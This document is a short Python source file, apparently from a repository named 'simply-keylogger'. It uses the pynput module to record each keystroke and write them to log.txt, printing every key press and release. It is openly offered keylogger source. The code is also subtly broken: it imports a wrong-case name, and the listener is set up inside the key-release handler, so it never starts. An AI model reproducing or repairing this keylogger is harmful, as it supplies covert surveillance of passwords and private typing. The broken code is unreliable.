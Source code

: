 # simply-keylogger
# keylogger using pynput module
import pynput
from pynput.keyboard import key, Listener

keys = []

def on_press(key):
    keys.append(key)
    write_file(keys)

    try:
        print('alphanumeric key {0} pressed'.format(key.char))
    except AttributeError:
        print('special key {0} pressed'.format(key))

def write_file(keys):
    with open('log.txt', 'w') as f:
        for key in keys:
            # removing ''
            k = str(key).replace("'", "")
            f.write(k)
            # every keystroke for readability
            f.write(' ')



def on_release(key):
    print('{0} released'.format(key))
    if key == key.esc:
        # stop Listener
        return False
    
    with Listener(on_press=on_press,
                   on_release=on_release) as listener:
        Listener.join()
